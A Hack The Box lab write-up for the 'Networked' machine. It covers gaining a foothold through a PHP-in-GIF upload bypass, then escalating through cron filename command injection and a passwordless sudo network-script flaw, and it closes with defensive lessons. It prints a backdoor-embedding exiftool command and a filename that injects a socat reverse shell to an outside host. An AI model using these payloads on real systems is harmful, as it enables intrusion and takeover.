# Hack the box writeup: Networked

|||
|:---|---:|
|**TL;DR**|Enumerate web application to gain source code access, foothold via image upload vulnerability, privesc from web app user to root via different command injection techniques|


## Enumeration
I started with a quick 'usual suspects' port scan to find 2 open ports - SSH and HTTP.
```
nmap 10.10.10.146 -sV -p22,80,443
```



The `-sV` option enables service detection, which fingerprints the returns from these ports, revealing I was possibly dealing with a LAMP stack on centOS.

The home page looked pretty basic so I fired off  a few cheap shots (directory traversal, command injection) but nothing indicated success.


A quick look at the source code indicated that the upload and gallery pages existed, but weren't linked yet:

```
<!-- upload and gallery not yet linked -->
```

I enumerated the web application target using [nikto](https://en.wikipedia.org/wiki/Nikto_(vulnerability_scanner)) which amongst other things, has a directory brute force capability. This revealed an accessible folder called `backup`, which contained a compressed file, so I downloaded it down to take a look. It was full of PHP source code.



This contained four source files:
- upload.php
- photos.php
- lib.php
- index.php

## When file upload goes bad

When uploading a file to the server, the application goes through the following process:

1. Is the file being uploaded an image?
2. Is the file under 60k?
3. Get the extension of the file - is it one of [ ".jpg", ".png", ".gif", ".jpeg"]?
4. Build a new file name based on the IP address of the uploader, and appending the user supplied extension from step 3
5. Save this file in the `uploads/` folder

When rendering the list of photos, the filename persisted on disk is rendered as text and also inserted directly into an `img` tag as the `src` attribute.

There were three flaws I could see, one that stood out to me, and two that didn't immediately click.

### XSS via IMG tag 
The one that stood out to me, was that the filename rendering didn't properly HTTP encode the filename, so it was possible to gain XSS with the following payload.



However, this was a complete red herring and caused me to overthink this initial foothold. While the XSS was interesting, what I really needed to do was execute server side code.

### Incorrect MIME Type handling

After some trial and error I realized that the code that selected the extension for the destination filename was greedy: if you passed it a filename of 'foo.bar.baz', it would generate a filename of 'IP_ADDRESS.bar.baz'. 

```php
function getnameUpload($filename) {
  $pieces = explode('.',$filename);     // split string on '.'
  $name= array_shift($pieces);          // pop the first value off the array - the 'filename' 
  $name = str_replace('_','.',$name);   // unused code ?!
  $ext = implode('.',$pieces);          // join the remaining elements in the array
  return array($name,$ext);             // return the filename and the extension as a tuple. Callsite discards the $name value :)
}
```

Some searching revealed that in Apache (2.4?), MIME type selection is ... [nuanced](https://httpd.apache.org/docs/current/content-negotiation.html#naming). From the mod-mime documentation, emphasis mine:

>Care should be taken when a file with multiple extensions gets associated with both a **media-type** and a **handler**. This will usually result in the request being **handled by the module associated with the handler**. For example, if the .imap extension is mapped to the handler imap-file (from mod_imagemap) and the .html extension is mapped to the media-type text/html, then the file world.imap.html will be associated with both the imap-file handler and text/html media-type. **When it is processed, the imap-file handler will be used**, and so it will be treated as a mod_imagemap imagemap file.

_So basically, if you edit this delicate arrangement - you'd better know what you're doing!_

What does this all mean for me? If I named a gif `image.php.gif` it could be handled as `text/php` rather than `image/gif`. Perfect!

## Gaining a foothold

Since there was some level of image checking going on it wasn't as simple as uploading PHP code. I learned that the GIFs make for quite simple PHP polyglots, in that they can store text in the form of EXIF data. 

I bypassed the image validation by creating a small gif in GIMP and then modifying it to contain PHP in the EXIF comment using `exiftool`.

```bash
backdoor=$(cat simple_shell.php)
exiftool -comment=$backdoor 64x64-transparent-pixel.gif
```

> I used the ['simple PHP backdoor by DK'](https://github.com/BlackArch/webshells/blob/master/php/Simple_PHP_backdoor_by_DK.php) for simple_shell.php

Once I had PHP executing for me server side, I was able to start poking around.



Executing as the user `apache` I dumped `/etc/passwd` and found that there was a login user `guly` (_the author of the box - thanks @guly! I learned a lot!_):

```
.
.
.
guly:x:1000:1000:guly:/home/guly:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
```

Using the command `which nc` I also discovered that `netcat` 7.5 was available, so I decided to leverage that to setup a reverse shell.



I could list `/home/guly` which revealed the first flag (`user.txt`) so I knew what my next target was. 



## Privilege escalation with filenames

Crontab eh?

```
*/3 * * * * php /home/guly/check_attack.php
```
So I can never remember these - I just use a proper search engine for this.



A quick analysis of the script showed that it would loop over all the files in `/var/www/html/uploads` and check them for validity. If a file was 'invalid' a cleanup function would execute. That function has the following command injection vulnerability:

```php
    # $value is the name of a file in the /var/www/html/uploads folder
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

Since we could write to `/var/www/html/uploads` we could control the string held by the `$value` variable.

This meant that "sophisticated" filenames could result in a shell being established in the context of the user running the cron job :)

> **Worth noting**: as much as one tries, filenames simply can't have the '/' char in them, making it tricky to use things like /bin/bash in your filename. Dang.

It was around this time I realized that slumming it in a blind reverse shell was slowing me down, and it turned out that netcat's big brother [socat](https://linux.die.net/man/1/socat) was also on disk.

This allowed me to get an interactive tty, so I could see what the heck I was doing.

```bash
# on my attack machine - setup a listener
socat file:`tty`,raw,echo=0 tcp-listen:4243

# on the target shell create a world read/write/exec file
touch "aaa; socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.77:4243"

# wait ~3 minutes for a shell to pop
```

## Root upgrade thanks to sudo and ifcfg

This gave me full access to guly's directory, and there was a .viminfo file residing there hinting of the existence of a script in `/usr/local/sbin/changename.sh`



The `changeme` script builds an `ifcfg` setup script and does some input validation, presumably to prevent mistakes. Heh.

Just running it pretty quickly showed up that it needed to be run as root. This system had `sudo` installed, so I needed to find a way to run it.

Honestly, this took me a good while to figure out.

I desperately ended up hoping that that `sudo` had been misconfigured to use a passwordless elevation against this file, so I tried to running it using the full path:

```
sudo /usr/local/sbin/changename.sh
```

I nearly fell out of my chair when it worked. To gain execution from this file, I tried leveraging the special characters that it was regexing _in_. Something interesting happened when I used spaces:



This was a big bad smell. It indicated that  a binary running as root: `ifup` was trying to execute my input as a command, and since / characters were allowed by that regex, I could supply a path to a location I could write to.

I pointed this input to another netcat script to setup a reverse shell and at that point I had root access. Phew.



I went through the formality of grabbing the flag and curiosity got the better of me: I dumped the sudoers file just to confirm my suspicions, the user had gotten lazy:

```
guly ALL=NOPASSWD: /usr/local/sbin/changename.sh
```

# Wrapping it up: What can we learn from this box?

- Keep your source code backups in a safe place. Just because there are no hyperlinks does not mean it will not be found.
- Watch out for custom Apache configurations, the default configuration would have prevented the MIMEtype issue
- If possible, use immutable infrastructure or remote administration technologies to run scripts against production, instead of making a home for a user to run some scripts
- If you do need to leave scripts lying around on a system (jobs etc) analyze them carefully for local privilege escalation and command injection flaws
- Probably not a great idea using passwordless sudo if you can help it